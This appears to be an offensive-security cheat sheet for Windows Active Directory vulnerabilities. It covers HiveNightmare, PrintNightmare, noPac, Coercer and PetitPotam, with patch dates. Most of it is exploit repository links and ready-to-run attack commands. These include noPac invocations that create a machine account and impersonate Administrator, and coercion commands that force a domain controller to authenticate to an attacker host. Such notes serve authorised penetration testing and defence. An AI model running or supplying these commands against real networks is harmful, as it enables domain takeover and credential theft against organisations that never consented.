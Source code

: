 
## HiveNightmare / SeriousSAM

* https://github.com/GossiTheDog/HiveNightmare
* Patched as of August 10th, 2021


## PrintNightmare

* Check
  * `rpcdump.py @<ip> | egrep 'MS-RPRN|MS-PAR'`
  * `REG QUERY "HKLM\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint"`
* Exploit
   * https://github.com/cube0x0/CVE-2021-1675
   * https://github.com/calebstewart/CVE-2021-1675
   * https://github.com/outflanknl/PrintNightmare
   * Or use Mimikatz (misc::printnightmare)
* Patched as of September 15th, 2021


## samAccountName spoofing / noPac

* https://github.com/cube0x0/noPac
* Requirements
   * 1 DC not patched with either KB5008380 or KB5008602
   * Any valid domain user account
   * Machine Account Quota (MAQ) above 0 (by default it is 10)
* Check
   * `noPac.exe scan -domain <domain> -user <user> -pass <pass>`
* Exploit
    * https://github.com/cube0x0/noPac
     * `noPac.exe -domain <domain> -user <user> -pass <pass> /dc <dc_fqdn> /mAccount demo123 /mPassword Password123! /service cifs /ptt`
     * `noPac.exe -domain <domain> -user <user> -pass <pass> /dc <dc_fqdn> /mAccount demo123 /mPassword Password123! /service ldaps /ptt /impersonate Administrator`
   * https://github.com/Ridter/noPac
* Patched as of November 9th, 2021


## Coercer

* https://github.com/p0dalirius/Coercer
* `sudo python3 -m pip install coercer`
* `Coercer coerce -l <attacker> -t <dc> -d <domain> -u <user> -p <pass>`


## PetitPotam

* https://github.com/topotam/PetitPotam
* `PetitPotam.py -d <domain> -u <user> -p <pass> <attacker> <dc>`
* The unauthenticated variant is fixed as of Aug 10, 2021. The authenticated variant won't be fixed.
